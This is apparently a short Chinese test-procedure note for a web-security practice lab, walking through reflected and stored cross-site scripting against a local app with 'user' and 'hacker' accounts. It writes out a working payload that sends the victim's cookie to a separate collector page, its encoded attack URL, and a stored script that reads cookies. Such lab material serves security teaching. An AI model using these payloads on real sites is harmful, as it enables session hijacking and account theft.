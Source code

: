 # 测试流程

##　准备

- user:user
- hacker:hacker

## XSS（2017/A7）

### 反射型（Reflected）

- hacker 用户填写 `"/> <script>window.open("http://127.0.0.1:81/xss_hacker.php?cookie="+document.cookie);</script><!--` 得到攻击 url `http://127.0.0.1:82/xss_reflected.php?address1=%22%2F%3E+%3Cscript%3Ewindow.open%28%22http%3A%2F%2F127.0.0.1%3A81%2Fxss_hacker.php%3Fcookie%3D%22%2Bdocument.cookie%29%3B%3C%2Fscript%3E%3C%21--`
- user 点击攻击 url


### 存储型（Persistent）

- hacker 用户写博客，存入 `<script>alert(document.cookie);</script>`
- user 用户看博客，选择 hacker 用户
